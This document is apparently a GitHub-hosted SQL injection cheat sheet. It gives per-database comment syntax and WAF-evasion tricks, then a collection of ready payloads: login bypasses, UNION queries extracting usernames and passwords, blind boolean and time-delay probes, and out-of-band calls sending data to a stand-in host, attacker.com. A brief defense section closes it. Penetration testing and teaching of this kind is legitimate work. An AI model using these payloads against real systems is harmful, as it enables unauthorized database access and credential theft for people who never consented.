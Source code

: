 
# SQL Injection Cheat Sheet

This guide provides a comprehensive overview of SQL Injection (SQLi), including common comment syntax, payload examples, evasion techniques, and classification of SQLi types.

For an in-depth reference, see: [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

## 1. Database-Specific Comment Syntax

| Database       | Single-Line Comments                                   | Block Comments  | Notes                                                                 |
|----------------|--------------------------------------------------------|-----------------|-----------------------------------------------------------------------|
| Oracle         | `--comment`                                            | `/*comment*/`   | Requires `FROM DUAL` for standalone `SELECT` statements.              |
| Microsoft SQL  | `--comment`                                            | `/*comment*/`   | Does not require a space after `--`. Supports stacked queries.        |
| PostgreSQL     | `--comment`                                            | `/*comment*/`   | Similar to Microsoft SQL. Supports stacked queries.                   |
| MySQL          | `#comment` <br> `-- comment` <br> `--+` <br> `-- -`    | `/*comment*/`   | `--` must be followed by a space. `#` is a valid standalone comment.  |

---

## 2. Comment Behavior and Bypass Techniques

### Oracle

All `SELECT` statements require a `FROM` clause. Use the dummy table `DUAL`:

```sql
' UNION SELECT NULL FROM DUAL--
````

### MySQL

Valid comment styles:

```sql
--      → Invalid (missing space)
--+     → Valid (URL-encoded space)
-- -    → Valid (space added)
#       → Valid
```

### Comment Obfuscation for WAF Bypass

```sql
/*! MySQL-specific comment syntax */
/*!32302 1=0 */                         -- Executes only if server version ≥ 3.23.2
SELECT/*bypass*/user                   -- Obfuscate keywords
UNI/**/ON SEL/**/ECT * FROM users      -- Break keywords into parts
```

---

## 3. SQL Injection Payload Examples

| Scenario              | Oracle Example                           | MySQL Example                |
| --------------------- | ---------------------------------------- | ---------------------------- |
| Union-based injection | `' UNION SELECT username FROM DUAL--`    | `' UNION SELECT username#`   |
| Login bypass          | `admin'--`                               | `admin'-- -`                 |
| Conditional logic     | `' OR 'a'='a'--`                         | `' OR 1=1--+`                |
| WAF evasion           | `' UNI/*foo*/ON SELECT NULL FROM DUAL--` | `' UNI/*!ON*/ SELECT 1,2,3#` |
| Version detection     | N/A                                      | `' /*!32302 AND*/ 1=0-- -`   |

---

## 4. Types of SQL Injection

SQL Injection can be classified into three primary types: **In-band**, **Inferential (Blind)**, and **Out-of-band**. Each varies in complexity and observability.

### 4.1 In-Band SQLi

The attacker uses the same communication channel to both deliver the payload and receive the result. It is the most straightforward type.

#### Error-Based SQLi

Leverages verbose error messages to retrieve schema or data information.

```sql
' AND 1=CONVERT(int, (SELECT @@version))--
```

#### Union-Based SQLi

Uses the `UNION` operator to combine results from different queries into a single response.

```sql
' UNION SELECT username, password FROM users--
```

---

### 4.2 Inferential (Blind) SQLi

The attacker does not directly receive query results, but infers information based on application behavior.

#### Boolean-Based Blind SQLi

Uses true/false statements to determine logical outcomes based on server responses.

```sql
' AND 1=1--        -- Page loads normally
' AND 1=2--        -- Page behaves differently
```

#### Time-Based Blind SQLi

Uses time delays to measure conditional execution.

```sql
' OR IF(1=1, SLEEP(5), 0)--     -- Server delays response
' OR IF(1=2, SLEEP(5), 0)--     -- No delay
```

---

### 4.3 Out-of-Band SQLi

Used when the attacker cannot use the same channel to receive output. Depends on features like DNS or HTTP calls from the database server.

#### Common Techniques

* **Microsoft SQL Server**

  ```sql
  EXEC master..xp_dirtree '\\attacker.com\payload'
  ```

* **Oracle Database**

  ```sql
  SELECT UTL_HTTP.request('http://attacker.com') FROM dual;
  ```

Out-of-band methods are useful when time-based and boolean-based inference is unreliable due to unstable response behavior.

---

## 5. Defense Strategies

To mitigate SQL injection risks:

1. **Use Parameterized Queries (Prepared Statements)**
   Avoid string concatenation to build SQL queries.

2. **Apply Server-Side Input Validation**
   Validate and sanitize input against a whitelist of acceptable values.

3. **Implement Least Privilege Access**
   Ensure database accounts have only the permissions necessary for their function.

4. **Disable Detailed Error Messages in Production**
   Return generic messages to users and log detailed errors securely.

5. **Use Web Application Firewalls (WAFs)**
   Combine behavioral and signature-based detection for added protection.

---

## References

* [PortSwigger SQL Injection Guide](https://portswigger.net/web-security/sql-injection)
* [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
* [Acunetix SQLi Scanner](https://www.acunetix.com/vulnerabilities/web/sql-injection/)

